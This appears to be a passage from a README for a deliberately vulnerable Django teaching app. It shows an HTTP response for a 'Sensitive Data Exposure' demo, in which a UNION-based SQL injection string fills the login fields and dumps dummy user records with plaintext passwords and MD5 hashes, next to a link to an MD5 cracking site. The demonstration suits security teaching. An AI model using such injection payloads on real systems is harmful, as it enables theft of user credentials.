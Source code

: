 Response:

```
HTTP/1.1 200 OK
Date: Sun, 14 Mar 2021 12:34:37 GMT
Server: WSGIServer/0.2 CPython/3.9.2
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
Vary: Cookie
Content-Length: 1262
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Set-Cookie:  csrftoken=zrLfzcEXSsrgxUMCtcDYBc4j4h4dSSOsjSFG8bayan12GFKHHDxfAaUwTPH1xaWM; expires=Sun, 13 Mar 2022 12:34:37 GMT; Max-Age=31449600; Path=/; SameSite=Lax

<a href="/myapp">Back</a>

<div>
  This demonstrates Sensitive Data Exposure vulnerability. Some of the passwords
  in database have not been encrypted properly, which enables the attacker to
  easily decrypt them.
</div>

<form method="POST">
  <input type="hidden" name="csrfmiddlewaretoken" value="9Sscw9uKRD2lolkKmP0yWnh7QbL3gUreTjmD580l9yC7x6iPAgUPVl7kFJoRVczy">
  <label for="username">Username</label>
  <input
    type="text"
    name="username"
    value="=' UNION SELECT * FROM myapp_User--"
  />
  <br />
  <label for="username">Password</label>
  <input
    type="password"
    name="password"
    value="=' UNION SELECT * FROM myapp_User--"
  />
  <br />
  <input type="submit" value="Login" />
</form>

<div>
  <code>[(1, &#x27;john@doe.com&#x27;, &#x27;John&#x27;, &#x27;Doe&#x27;, &#x27;JohnsSecret&#x27;, 1), (2, &#x27;jane@doe.com&#x27;, &#x27;Jane&#x27;, &#x27;Doe&#x27;, &#x27;JanesSecret&#x27;, 0), (3, &#x27;jim@doe.com&#x27;, &#x27;Jim&#x27;, &#x27;Doe&#x27;, &#x27;edc42553941306d1dc2b096d1a845abb&#x27;, 0), (4, &#x27;Jenn@doe.com&#x27;, &#x27;Jenn&#x27;, &#x27;Doe&#x27;, &#x27;4f37034b879be91c7068a70c23c07e3b&#x27;, 0)]</code>
  <a href="https://www.md5online.org/md5-decrypt.html" target="_blank"
    >MD5 decrypt tool</a
  >
</div>
```
